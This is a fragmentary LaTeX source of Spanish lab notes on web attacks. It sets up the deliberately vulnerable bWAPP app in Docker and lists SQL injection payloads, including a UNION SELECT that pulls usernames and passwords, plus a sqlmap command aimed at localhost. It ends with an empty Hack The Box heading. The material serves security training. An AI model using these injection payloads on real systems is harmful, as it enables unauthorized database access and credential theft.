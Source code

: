 \documentclass[
  letterpaper,
  DIV=11,
  numbers=noendperiod]{scrreprt}
\begin{document}
\part{Ataques}

\hypertarget{section}{%
\chapter{}\label{section}}

INTRODUCCIÓN

INSTALACIÓN DEL LABORATORIO UTILIZANDO DOCKER

docker pull raesene/bwapp docker run -d -p 8080:80 --name bwapp
raesene/bwapp http://localhost:8080/

metasploitable2

ataque 1 SQL Injection (GET/Search) ' or `1' = '1--

' UNION SELECT null, null, null, null, null,null, null --

C:\python.exe sqlmap.py -u
``http://localhost:8080/sqli\_1.php?title=aa\&action=search''

' UNION SELECT username, password, null, null, null FROM users --

\part{Hack The Box}

\hypertarget{section-1}{%
\chapter{}\label{section-1}}

CIGARRA HTB

\begin{figure}

{\centering \includegraphics{Unidades/unidad10/imagenes/1.png}

}

\end{figure}
\end{document}
